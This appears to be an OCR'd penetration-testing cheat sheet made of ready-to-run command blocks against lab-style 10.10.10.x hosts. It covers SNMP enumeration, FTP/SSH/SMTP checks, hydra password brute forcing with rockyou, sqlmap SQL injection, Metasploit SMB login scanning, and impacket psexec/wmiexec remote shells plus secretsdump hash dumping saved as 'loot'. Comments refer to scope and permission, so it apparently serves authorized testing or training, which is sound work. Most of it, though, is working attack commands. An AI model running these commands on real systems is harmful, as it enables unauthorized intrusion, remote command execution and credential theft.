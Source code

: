SNMP checks (UDP/161)
```
H=10.10.10.7
# Try common community strings (public/private) if allowed
snmpwalk -v2c -c public $H 1.3.6.1.2.1.1 | tee scans/$H-snmp-sysdescr.txt
snmpwalk -v2c -c public $H 1.3.6.1.2.1.25.4.2.1.2 | tee scans/$H-snmp-processes.txt   # Running processes
snmpwalk -v2c -c public $H 1.3.6.1.2.1.25.6.3.1.2 | tee scans/$H-snmp-installed.txt  # Installed software
```

FTP/SSH/SMTP quick checks
```
# FTP (21)
H=10.10.10.8
nmap -p21 --script ftp-anon,ftp-syst $H -oA scans/$H-ftp
# Try anonymous if listed as allowed:
# ftp $H  (user: anonymous, pass: anonymous)

# SSH (22) banner, then targeted auth if permitted
nmap -sV -p22 $H -oA scans/$H-ssh
# hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ssh://$H -f -t 4

# SMTP (25) user enum if allowed
# nmap -p25 --script smtp-enum-users $H -oA scans/$H-smtp
# smtp-user-enum -M VRFY -U users.txt -t $H | tee scans/$H-smtp-user-enum.txt
```

Web SQLi test (if in scope; confirm risk/level)
```
# Basic db discovery
sqlmap -u "http://10.10.10.5/items.php?id=1" --batch --risk=1 --level=1 --dbs -o \
  --output-dir=web/sqlmap_10.10.10.5_items
```

Search public exploits and Metasploit (confirm versions first)
```
# After identifying a likely vuln from banners/files:
searchsploit product version
searchsploit -m exploit-id

# Metasploit example: SMB login scan (safe-ish)
msfconsole -q -x "use auxiliary/scanner/smb/smb_login; set RHOSTS 10.10.10.0/24; set USER_FILE users.txt; set PASS_FILE pass.txt; set STOP_ON_SUCCESS true; run; exit"
```

Using credentials for Windows (impacket)
```
# If you gained valid domain/local creds:
pipx run impacket-smbclient -target-ip 10.10.10.6 user:'Passw0rd!'@10.10.10.6
pipx run impacket-psexec user:'Passw0rd!'@10.10.10.6 cmd
pipx run impacket-wmiexec user:'Passw0rd!'@10.10.10.6
pipx run impacket-secretsdump user:'Passw0rd!'@10.10.10.6 | tee loot/10.10.10.6_hashes.txt
```

